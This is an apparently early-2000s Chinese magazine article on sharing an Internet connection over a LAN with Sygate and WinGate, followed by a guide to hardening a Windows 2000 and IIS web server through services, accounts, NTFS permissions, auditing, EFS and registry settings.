

Sygate 还允许将本地工作站上的驱动器（硬驱、软驱以及 CD-ROM 驱动器）和打印机共享给网络上其它用户。在工具栏上单击资源工具，资源对话框出现，在个人资源列表中，选择你想共享的项目，单击共享按钮，被选中的项目就移至共享资源列表中，单击 OK，其它用户就可在自己的工作站上分享这些资源了。注：共享驱动器/打印限于只读模式。

### 共享上网方案之四——通过 WinGate 实现共享服务

WinGate 是代理服务器类软件的前辈，是具有防火墙功能的多协议代理服务器系统软件，可以通过一台电脑为局域网上的用户提供因特网访问的共享服务。由于其良好的性能与口碑，所以在考虑多机共享一猫上网的环境中，WinGate 往往成为用户的首选。多协议意味着 WinGate 支持几乎所有的因特网协议，比如 HTTP、FTP、POP3 以及 VDO（视频）、RealAudio（音频）等等，用户浏览主页、收发邮件、传输文件、欣赏视频和音频不受限制，与每个用户单独使用一个入网账户毫无区别。

在介绍 WinGate 的安装之前，先简单介绍一下运行 WinGate 的要求。WinGate 软件只在 Lan 上的一台机器上运行，这台机器通常称为服务器。Lan 上的其它计算机称为客户机或工作站。WinGate 也就是服务器通过 Modem 或其它方式连入 Internet，而客户机则通过 WinGate 服务器机器“间接的”访问 Internet。WinGate 对客户机的硬件要求不高，只要能运行相应的操作系统，但是运行 WinGate 软件的机器至少要 Pentium 166 以上的 CPU、64M 以上的内存，硬盘尽量的大，如是用 Modem 应该采用 56K 的 Modem。

#### 安装 WinGate 配置服务器

WinGate 软件有 Windows 9x 和 Windows NT 两种版本，本文以 Windows 98 版本来举例说明。

- 1. 您需要在装有 WinGate 机器上建立 Internet 连接。它支持任何类型的 Internet 连接。遵照 ISP 的指导说明。
- 2. 下一步是在局域网内配置网卡，以连接到您的内部网络。如果你的连接不是拨号或 ISDN，而是 DDN 等，就需要另外一个附加网卡作为内部局域网，这里我们将其称为“内部网卡”。内部网卡必须要分配一个 IP 地址，也叫“静态 IP 地址”。这个地址是不会被您的 ISP 或 Internet 看到的。对于您的 Internet 连接不会有任何影响。下一步是在网卡上添加 TCP/IP（如果已经有 TCP/IP，直接跳到第 3 步）。用鼠标右击网络邻居，点击属性，将打开协议窗口，您会在组件中看到 TCP/IP 协议，在这个窗口中一般有拨号适配器或添加网络适配器，这要看您是采用哪种 Internet 连接类型。点击“添加”按钮，选中协议项，然后点击“添加”，在左边的窗口选 Microsoft，并在右边选中 TCP/IP，点“确认”键关闭先前的窗口点“确认”键重新启动 Windows。
- 3. 找到我们刚增加的 TCP/IP 协议，依照以下步骤来配置您的内部网卡：选中这个列表，点击属性按钮，一个关于您的网卡属性的窗口将弹出，点击“IP 地址”标签，接着点击“指定 IP 地址”，在 IP 地址栏填入：192.168.0.1，在子网掩码栏填入：255.255.255.0，点击 DNS 配置标号，在 DNS 不要做任何更改，点击“确认”并重新启动 Windows。
- 4. 在这台机器上安装 WinGate 软件，在安装过程中有一提示，请选“Server”项。安装完成后需重新启动机器。

#### 客户端配置

- 1. 察看是否安装了 TCP/IP 协议，如果没有安装，依照上面服务器端配置中的方法安装。
- 2. 有两种方法让你在工作站上配置 TCP/IP。你可以自动（动态）得到 IP 地址或分配一个（静态）IP 地址。我们建议采用从 WinGate 机自动获得 IP 地址的方式，除非你有特殊的原因要手动分配。

配置客户端自动/动态获得 IP 地址，采用 DHCP：
左击“网络邻居”——点击“属性按钮”——找到网卡的“TCP/IP”组件并选中——点击属性键点击“IP 地址”标号——选中自动获得 IP 地址——点击“WINS 配置”标签——选中“禁用 WINS 解析”——点击“DNS 配置”标签，在这里你需要知道 WinGate 机器的 DNS 是“关闭”还是“启动”。

如果在 WinGate 机器上的 DNS 是“Enabled”，按照以下步骤：
- 选中“禁用 DNS”钮
- 点击“确认”，重新启动机器，进入下一步。

如果在 WinGate 机器上的 DNS 是“Disabled”，按照以下步骤：
- 选中“启用 DNS”钮，输入主机名，在局域网中不能重名。可以起简单的名称，如“computer2”作主机名。域名栏中保留为空，在“DNS 服务器搜索顺序”中输入 ISP 的 DNS 服务器的 IP 地址，这个地址 ISP 会提供给你，如果你不知道，可以向他们询问。
- “域后缀搜索顺序”保留空白，点击“确定”——你将需要重新启动机器——进入下一步。

- 3. 安装 WinGate Internet 客户程序。和你安装在服务器上的是同一个文件，在安装过程中会有提示供你选择为客户端。你可以将这个文件放到磁盘上也可以从网络安装。在提示的地方选择“Client”安装。一旦这个安装完成你将需要重新启动机器。

- 4. 测试 TCP/IP
这时你可以用 Ping 命令来测试网络。运行 ping 192.168.0.1，结果应该是：

```
Pinging 192.168.0.1 with 32 bytes of data
Reply from 192.168.0.1 bytes=32 time<=10ms TTL=128
Reply from 192.168.0.1 bytes=32 time<=10ms TTL=128
Reply from 192.168.0.1 bytes=32 time<=10ms TTL=128
Reply from 192.168.0.1 bytes=32 time<=10ms TTL=128
```

证明你的网络是通的。此时你再用此命令 Ping 任意一个域名如 www.download.com.cn，你如得到如下结果：

```
Pinging www.download.com.cn with 32 bytes of data
Reply from 192.168.0.4 Destination host unreachable
Reply from 192.168.0.4 Destination host unreachable
Reply from 192.168.0.4 Destination host unreachable
Reply from 192.168.0.4 Destination host unreachable
```

说明 DNS 工作正常，一切还很顺利。最后在设置一下拨号选项，一切都设置好以后就可以使多台电脑通过一条线路上网。

#### GateKeeper 简介

GateKeeper 是 WinGate 的一个控制中心，我们的大部分工作都将在这里进行。WinGate 为我们提供了各种 Internet 服务，GateKeeper 的窗口主要分为三部分，窗口的上面是菜单和工具栏；左面是设置栏，在这里可以对 WinGate 提供的各项服务进行管理，这里也列出了它提供的各种服务的名称和相应的端口号；右面是一个监视器，它能把每一台客户机的详细上网情况显示在这里（见图 15）。



用鼠标点一下设置栏中的“Services”选项卡，这里列出了默认开放的各种服务，有我们常用的 WWW、POP3、FTP、Telnet 等，有了这些服务，我们就可以浏览网页、收电子邮件、下载软件了。

除了这些常用的服务，WinGate 还允许我们自己添加其它服务，比如 SMTP、NEWS 等，下面我们来看看怎样添加 SMTP（简单邮件传输协议）服务。在“Services”选项卡中点一下鼠标右键，再选择“New Services”中的“TCP Mapping Services”，弹出了“TCP Mapping Services properties”窗口，我们就在这里添加 SMTP，在 Services 栏中填写这项服务的名称，我们就写“SMTP Proxy Services”，在“Description”栏中写对于这项服务的一段描述文字，咱们还写“SMTP Proxy Services”；下面的“Accept Connections on”是这 SMTP 的端口，一般都用“25”，填完后再点一下“Enable Default Mapping”，然后在“Services”栏中填入我们的 SMTP 服务器的地址，一般都填 ISP 提供的那个，比如“202.106.*.*”，后面的“ON”栏中还填它的端口“25”。好了，点“OK”后“Services”中就出现了我们刚才添加的 SMTP 了，现在，我们就可以使用 SMTP 服务来发送电子邮件了。

#### 设置客户端软件

WinGate 服务端装好后，并不意味着大功告成，各客户端还需要进行不少相关配置，下面就一些在客户端常用的应用软件的设置予以说明：

- 1. **Outlook Express 邮件管理程序**
Outlook Express 是比较常用的邮件程序，在 WinGate 中须进行设置，客户机才能使用。下面以 263 邮件账号（lixiangyou@263.net）为例说明如何设置。
  - 主机（WinGate）端：双击 POP3 Proxy Server，使用端口号：110，Delimiter（分隔符）：#。在 WinGate 设置窗口单击鼠标右键，添加 TCP Mapping Service，并在 Server 中输入远程服务器地址，如 smtp.263.net，端口号选用 25。
  - 客户机端：从 Outlook Express 菜单上“工具”－“账号”－“邮件”－“服务器”标签中，SMTP 和 POP3 中输入主机地址：192.168.0.1，账号名注意加分隔符“#”如：lixiangyou#263.net。

- 2. **Microsoft Internet Explorer**
在菜单“查看”－“Internet选项”－“高级”－“HTTP 1.1设置”，勾上“通过代理连接 HTTP 1.1”一项。在“连接”勾上“使用代理服务器”，并填写服务器地址：192.168.0.1 及相应端口号。

- 3. **Cterm**
在连接对话框中，填写地址：192.168.0.1，自动登录：BBS 站点地址\n\p\bbs\n。端口号填写 WinGate 设定的端口如：23。

- 4. **Telnet**
不须特别设置，运行 Telnet 192.168.0.1，然后输入主机名，附加端口号即可。

- 5. **NetAnts**
打开菜单“工具”－“选项”－“代理服务器”勾上“使用 HTTP 代理”和“使用 FTP 代理”，填写代理服务器地址：192.168.0.1 和分别的端口号如 80 和 21（具体由 WinGate 设定决定）。

- 6. **OICQ**
打开 OICQ 后选择“注册向导”－选择“使用已有的 OICQ 号码”－输入你的 OICQ 号码和密码后按“下一步”－“下一步”－在网络设置中设置如下：
  - 上网类型选择“局域网接入 Internet”；
  - 上网类别，选择“Internet 用户”（如果你是通过 169 拨号上网请选择 169 用户）；
  - 打开“使用 Proxy SOCKS5 防火墙”复选框，防火墙地址：输入 gateway，端口号输入 1080。

- 7. **Foxmail 3.0 等各种 E-mail 软件邮件账号的设定**
  - POP3 中填入网关
  - SMTP 中填入网关
  - 在账号名或用户名中填入“账号名#邮件服务器名”。

- 8. **Microsoft Internet Explorer 5.0**
打开“控制面板”－“Internet”－“连接”－“局域网设置”，在弹出的对话框中设置：打开“使用代理服务器”复选框，地址中填入网关，端口中填入 80。

以上是众小编们根据广大网友的经验和一些实际应用总结的几种常用的应用软件设置，相信读者熟悉原理后，会举一反三。



## 深描：Web Server

对于任何一个企业来说，网络服务器都是必不可少的，但是网络服务器的安全却一直是一个令人烦恼的问题。如何配置一台相对安全的服务器是我们急需了解的，为此，我们本期专题主要描述这个问题。和以往专题所不同的是，本期专题由 4 位作者所完成，包括 Windows 2000 和 *NIX 的具体应用以及 Web 系统日志分析的强大工具，希望能对大家有所帮助。

### 用 Windows 2000 建立安全 Web 站点

文/chinaboy

Windows 2000 是一个先进的操作系统，在安全上改掉了以往版本的不少毛病，用 Windows 2000 建立的 Web 站点在所有的网站中占了很大一部分比例，但 2000 的安全问题也一直比较突出，使得一些基于 2000 的网站有一种如履薄冰的感觉，然而微软并没有明确的解决方案，只是推出了一个个补丁程序，各种安全文档上对于 2000 的安全描述零零碎碎，给人们的感觉是无所适从。于是，有的网管干脆什么措施也不采取，有的忙着下各种各样的补丁程序，有的在安装了防火墙以后就以为万事大吉了。这种现状直接导致了大量基于 2000 的网站的安全性参差不齐。只有极少数 2000 网站有较高的安全性。

### 一、正确安装 Windows 2000

安装 Windows 2000 之前应该对硬盘进行重新分区、格式化，确保硬盘上没有任何数据。一台安全的服务器上绝对不能有多个操作系统，确保机器上只有 Windows 2000 一个操作系统。安装两种以上的操作系统，会给黑客以可乘之机，利用攻击使系统重启到另外一个没有安全设置的操作系统（或者他熟悉的操作系统），进而进行破坏。另外，最好准备一台配置稍差的电脑作为测试机使用。

Windows 2000 的安装应该注意安装过程中不要随便离开，不能使用无人值守安装！安装完毕，一些 Windows 可以识别的硬件驱动程序已经安装，对于需要手动安装驱动程序的硬件，只能使用硬件厂商提供的官方驱动，即硬件光盘上面所附带的驱动程序，绝对不允许从非官方网站下载驱动程序，最好不要随便升级驱动程序。另外，为了确保系统安全，绝对要用 NTFS 格式化所有分区，并且要一次性全部格式化成 NTFS 分区，不允许先格式化成 FAT 分区，再转化为 NTFS 分区。NTFS 比 FAT 分区多了安全控制功能，可以对不同的文件夹设置不同的访问权限，安全性大大增强。但是 NTFS 分区有一个潜在的危险，就是目前大多数反病毒软件没有提供对软盘启动后 NTFS 分区病毒的查杀，一旦系统中了恶性病毒而导致系统不能正常启动，后果就比较严重，所以平时必须做好防病毒工作。建议准备瑞星杀毒软件，这是目前唯一支持软盘启动后 NTFS 分区病毒的查杀毒软件！

将操作系统文件所在分区与 Web 数据包括其他应用程序所在的分区分开，在安装时，最好不要使用系统默认的目录。Windows 2000 安装完毕后，就开始对 Windows 2000 进行设置，完成网络设置和其他一些设置之后，开始安装系统补丁。安装当前所有的 Service Pack 和 Hot Fixes。的补丁应该直接来源于微软的 Windows Update，绝对不允许安装从其他非官方网站下载的补丁。除了补丁之外，不要随便升级 Windows 组件，如 IE 等。在 Windows 2000 中实现了 IE 5.01 和系统的无缝整合，如果贸然升级到更高的版本，可能会带来不必要的麻烦！安装了补丁程序，以后如果要从 Windows 2000 光盘上安装新的 Windows 程序或者对 Windows 2000 进行设置，需要 Windows 2000 光盘，那么在设置完毕之后必须重新安装补丁程序。另外，还要经常关注微软最新补丁的发布，给服务器安装最新的补丁！安装 Service Pack 前应先在测试机上安装一次，以防因为意外原因导致机器死机，同时做好数据备份。

另外，在完成设置之前绝对不能将服务器连入网络，特别是 Internet。因为 Windows 2000 安装时，在输入用户管理员账号 “Administrator” 的密码后，系统会建立一个 “$Admin” 的共享账号，但是并没有用刚输入的密码来保护它，这种情况一直会持续到计算机再次启动。在此期间，任何人都可以通过 “$Admin” 进入系统，同时，安装完成后，各种服务会马上自动运行，而此时的服务器还到处是漏洞，非常容易从外部入侵。

## 二、IIS 设置

安装 IIS 时应该注意只安装 Option Pack 中必须的服务，建议不要安装 Index Server、FrontPage Server Extensions、示例 WWW 站点等功能。IIS 中的众多安全隐患是由其他一些功能引起的，如果仅做一个 WWW 站点，就安装必须的服务，这样可以减少黑客利用这些漏洞攻击的机会。

关闭不必要的服务。服务开得太多也不是个好事，将没有必要的服务通通关掉，特别是连管理员都不知道是干什么的和一些很危险的服务，免得给系统带来灾难，同时也能节约一些系统资源。建议在停掉前查阅帮助文档并首先在测试服务器上作一下测试。比如以下服务是一定要关闭的：

- Schedule
- ftp publishing service
- Telnet
- Terminal Services
- RunAs Service
- Telephony
- Remote Access Server
- Remote Procedure Call (RPC) Locator
- Spooler
- TCP/IP Netbios Helper
- Telephone Service

打开管理工具中的 Internet 服务管理器，删除“默认 Web 站点”及其下的所有目录，并且将这些文件彻底清理出硬盘！在非系统分区建立 Web 根目录，假设为：`D:\Webroot\`。

在“管理 Web 站点”上单击右键，选择“新建”→“站点”。根据提示操作，站点说明假设为“Web”，目录输入 `D:\Webroot\`，只给读取权限，如图 1 所示。

（此处为图 1）

在“Web”的属性“主目录”中设置执行许可为“无”，“应用程序设置”、“配置”中删除不必要的 IIS 扩展名映射。最好去掉 `.IDC`、`.HTR`、`.STM`、`.IDA`、`.HTW` 应用程序映射，`.shtml`、`.shtm` 等如果无用，也应去掉。如果需要 ASP，那么就建立一个 `D:\Webroot\cgi-bin` 目录，在“属性”“目录”里允许脚本资源访问，应用程序设置里点击“创建”，“应用程序配置”里添加对 ASP 的映射，所有 ASP 文件都放在这个目录下，在“应用程序调试”中选取“发送文本错误消息给客户”。

注意：安装新的 Service Pack 后，IIS 的应用程序映射应重新设置。安装新的 Service Pack 后，某些应用程序映射又会出现，导致出现安全漏洞。这是管理员较易忽视的一点。

## 三、账号策略

- （1）账号尽可能少，且尽可能少用来登录；网站账号一般只用来做系统维护，多余的账号一个也不要，因为多一个账号就会多一份被攻破的危险。
- （2）除 Administrator 外，有必要再增加一个属于管理员组的账号；两个管理员组的账号，一方面防止管理员一旦忘记一个账号的口令还有一个备用账号；另一方面，一旦黑客攻破一个账号并更改口令，我们还有机会重新在短期内取得控制权。
- （3）所有账号权限需严格控制，轻易不要给账号以特殊权限。
- （4）将 Administrator 重命名，改为一个不易猜的名字。其他一般账号也应遵循这一原则，这样可以给黑客攻击增加一层障碍。
- （5）将 Guest 账号禁用，并且重命名为一个复杂的名字，并将它从 Guest 组删掉；有的黑客工具正是利用了 Guest 的弱点，可以将账号从一般用户提升到管理员组。
- （6）创建一个陷阱账号。什么是陷阱账号？就是创建一个名为“Administrator”的本地账户，把它的权限设置成最低，什么事也干不了的那种，并且加上一个超过 10 位的超级复杂密码。这样可以让那些 Scripts 忙上一段时间了，并且可以借此发现它们的入侵企图；或者在它的 login scripts 上面做点手脚。
- （7）给所有用户账号一个复杂的口令，长度最少在 8 位以上，并且必须同时包含字母、数字、特殊字符。同时不要使用大家熟悉的单词（如 Microsoft）、熟悉的键盘顺序（如 qwert）、熟悉的数字（如 2000）等。口令是黑客攻击的重点，口令一旦被突破，也就无任何系统安全可言了，而这往往是不少网管所忽视的地方。据测试，仅字母加数字的 5 位口令在几分钟内就会被攻破，而所推荐的方案则要安全得多。
- （8）口令必须定期更改（建议至少两周改一次），且最好记在心里，不要在任何地方做记录。另外，如果在日志审核中发现某个账号被连续尝试，则必须立刻更改此账号（包括用户名和口令）。
- （9）对于运行 IIS 的服务器，建议不要使用账户锁定策略，因为黑客可以通过对账号的反复登录尝试使其锁定，其后果就是任何人都无法访问 IIS 服务器，目前还没有解决的办法。
- （10）在“本地策略”的“安全选项”里，把“Lan Manager 身份验证级别”改为“仅发送 NTLM 响应”，这样即使入侵者借助 Sniffer 得到口令的 hash 也很难破解，还可以避免直接传递值的进攻方法——尽管这是一种较高级的技巧，但是已经有人写出了可以利用的程序。把“匿名连接的额外限制”设置为“没有显式匿名权限就无法访问”，启用“在关机时清理虚拟内存交换页面”，启用“登录屏幕上不要显示上次登录的用户名”。

## 四、修改 NTFS 的安全权限

说明：NTFS 下所有文件默认情况下对所有人（Everyone）为完全控制权限，这使黑客有可能使用一般用户身份对文件做增加、删除、执行等操作。建议对一般用户只给予读取权限，而只给管理员和 System 以完全控制权限，但这样做有可能使某些正常的脚本程序不能执行，或者某些需要写的操作不能完成，这时需要对这些文件所在的文件夹权限进行更改。建议在做更改前，先在测试机器上作测试，然后慎重更改。

可以参考下列设置：

- 对于所有硬盘分区：
    - System：完全控制
    - Administrator：完全控制
    - （允许将来自父系的可继承权限传播给对象）
- `\Program Files\Common Files`
    - Everyone：读取及运行、列出文件目录、读取
    - （允许将来自父系的可继承权限传播给对象）
- `\Webroot`：
    - IUSR_MACHINE：读取及运行、列出文件目录、读取
    - （允许将来自父系的可继承权限传播给对象）
- `\Winnt\system32`
    - 选择除了 Inetsrv 和 Certsrv 以外的所有目录，去除“允许将来自父系的可继承权限传播给对象”选项框，复制。

## 五、打开审核策略

开启安全审核是 Windows 2000 最基本的入侵检测方法。当有人尝试对你的系统进行某些（如尝试用户密码，改变账户策略，未经许可的文件访问等等）入侵的时候，都会被安全审核记录下来。很多管理员在系统被入侵了几个月都不知道，直到系统遭到破坏。下面的这些审核是必须开启的，其他的可以根据需要增加：

| 策略 | 设置 |
|---|---|
| 审核系统登录事件 | 成功，失败 |
| 审核账户管理 | 成功，失败 |
| 审核登录事件 | 成功，失败 |
| 审核对象访问 | 成功 |
| 审核策略更改 | 成功，失败 |
| 审核特权使用 | 成功，失败 |
| 审核系统事件 | 成功，失败 |

## 六、使用 EFS 加密系统

有很多人对于 EFS 不是很“感冒”，但是它确实有很多的优点。

在硬盘上加密数据的能力对于保护硬盘自身有极大的好处。另外，EFS 的应用产生了其他三方加密方法。访问一个加密的文件不需要用户任何的操作，先前的第三方文件加密工具需要用户每次访问文件时键入口令，它们并没有与文件系统或操作系统进行无缝集成，使用户感觉受挫而不愿使用文件加密。

EFS 密码组结合了对称加密（DESX）和非对称加密（RSA）的优点，优于对数据使用非对称加密（用这种方法仅 FEK 被加密），数据使用对称加密进行加密。备份进程备份加密格式的文件，消除了备份操作需要访问数据的需要。

EFS 集成进文件系统，因此一个恶意的用户不能绕过文件系统访问到硬盘。而且，所有运行在内核模式的 EFS 驱动程序不能由用户直接访问。

另外，它可以和 NTFS 很好地共存，EFS 可以被认为除 NTFS 外的第二层防护。当访问一个被加密的文件，用户必须有访问到文件的 NTFS 权限。有相关 NTFS 权限的用户能看到文件夹中的文件，但不能打开文件，除非有相应的解密钥匙。同样，一个用户有相应的钥匙，但没有相应的 NTFS 权限，也不能访问到文件。所以一个用户要打开加密的文件，同时需要 NTFS 权限和解密钥匙。

然而，NTFS 权限可能被大量的方法穿越，包括口令破解程序、用户在离开前没有退出系统或系统内部的 NTFSDOS。在 Windows 2000 下，当一个文件用 EFS 加密后，一个未授权的用户，即使访问到磁盘上的文件，也不能访问文件上的数据，因为没有授权用户的私钥。

## 七、TCP/IP 的筛选

Windows 2000 从 Windows NT 继承了 TCP/IP 筛选的功能。打开“网络和拨号连接”，在对外连接的网卡的 TCP/IP “属性”“高级”的选项页，如图 2 所示。选择“TCP/IP 筛选”，因为我们对外只需提供 HTTP 服务，所以只允许 TCP 80 端口。UDP 端口禁用，因为我们的服务器不需要 UDP 端口，开着反而会成为黑客攻击的目标，所以删除！如图 3 所示。

另外，对于 Netbios 等协议的禁用，已经有太多的文章，在此不再重复。

## 八、修改注册表加强安全

### 1. 设置生存时间
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
DefaultTTL REG_DWORD 0-0xff（0-255 十进制，默认值 128）
```
说明：指定传出 IP 数据包中设置的默认生存时间（TTL）值。TTL 决定了 IP 数据包在到达目的地前被允许经过的跳数。它实际上限定了 IP 数据包在丢弃前允许通过的路由器数量。有时，利用此数值来探测远程主机操作系统。

### 2. 关闭 DirectDraw
```text
HKLM\SYSTEM\CurrentControlSet\Control\GraphicsDrivers\DCI
Timeout REG_DWORD 0x0
```
说明：这是 C2 级安全标准对视频卡和内存的要求。关闭 DirectDraw 可能对一些需要用到 DirectX 的程序有影响，但是对于绝大多数的商业站点都应该是没有影响的。

### 3. 防止 ICMP 重定向报文的攻击
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
EnableICMPRedirects REG_DWORD 0x0（默认值为 0x1）
```
说明：该参数控制 Windows 2000 是否会改变其路由表，以响应网络设备（如路由器）发送给它的 ICMP 重定向消息，有时会被利用于干坏事。Windows 2000 中默认值为 1，表示响应 ICMP 重定向报文。

### 4. 禁止响应 ICMP 路由通告报文
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface
PerformRouterDiscovery REG_DWORD 0x0（默认值为 0x2）
```
说明：“ICMP 路由公告”功能可造成他人计算机的网络连接异常、数据被窃听、计算机被用于流量攻击等严重后果。因此，建议关闭响应 ICMP 路由通告报文。Windows 2000 中默认值为 2，表示当 DHCP 发送路由器发现选项时启用。

### 5. 防止 SYN 洪水攻击
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
SynAttackProtect REG_DWORD 0x2（默认值为 0x0）
```
说明：SYN 攻击保护包括减少 SYN-ACK 重新传输次数，以减少分配资源所保留的时间。路由缓存项资源分配延迟，直到建立连接为止。直到三路握手完成为止。注意，仅在 TcpMaxHalfOpen 和 TcpMaxHalfOpenRetried 设置超出范围时，保护机制才会采取措施。

### 6. 禁止 C$、D$ 一类的缺省共享
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareServer REG_DWORD 0x0
```

### 7. 禁止 ADMIN$ 缺省共享
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareWks REG_DWORD 0x0
```

### 8. 限制 IPC$ 缺省共享
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
restrictanonymous REG_DWORD
0x0 缺省
0x1 匿名用户无法列举本机用户列表
0x2 匿名用户无法连接本机 IPC$ 共享
```
说明：不建议使用 2，否则可能会造成你的一些服务无法启动，如 SQL Server。

### 9. 不支持 IGMP 协议
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
IGMPLevel REG_DWORD 0x0（默认值为 0x2）
```
说明：Win9x 下可以用 IGMP 使别人蓝屏。Windows 2000 虽然没这个 bug 了，但 IGMP 并不是必要的，因此照样可以去掉。改成 0 后，用 route print 将看不到那个 224.0.0.0 项了。

### 10. 设置 ARP 缓存老化时间
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
ArpCacheLife REG_DWORD 0-0xFFFFFFFF（秒数，默认值为 120 秒）
ArpCacheMinReferencedLife REG_DWORD 0-0xFFFFFFFF（秒数，默认值为 600）
```
